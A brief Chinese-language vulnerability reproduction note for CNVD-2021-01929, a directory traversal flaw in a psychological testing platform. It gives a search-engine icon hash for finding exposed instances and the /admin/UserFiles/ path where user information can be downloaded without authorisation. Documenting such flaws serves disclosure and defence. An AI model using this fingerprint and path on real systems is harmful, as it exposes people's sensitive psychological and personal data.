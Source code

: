 # 安徽阳光心健 心理测量平台 目录遍历漏洞 CNVD-2021-01929

# 安徽阳光心健 心理测量平台 目录遍历漏洞 CNVD-2021-01929

## 漏洞描述

安徽阳光心健心理咨询有限公司心理测量平台存在目录遍历漏洞，攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

```
安徽阳光心健 心理测量平台
```

## 网络测绘

```
icon_hash="-320896955"
```

## 漏洞复现

主页如下



![](/images/202202101955719.png)



扫描目录



![](/images/202202101955472.png)



访问 http://xxx.xxx.xxx.xxx/admin/



![](/images/202202101955183.png)



其中 http://xxx.xxx.xxx.xxx/admin/UserFiles/ 中还包含了用户信息可未授权下载



![](/images/202202101956420.png)

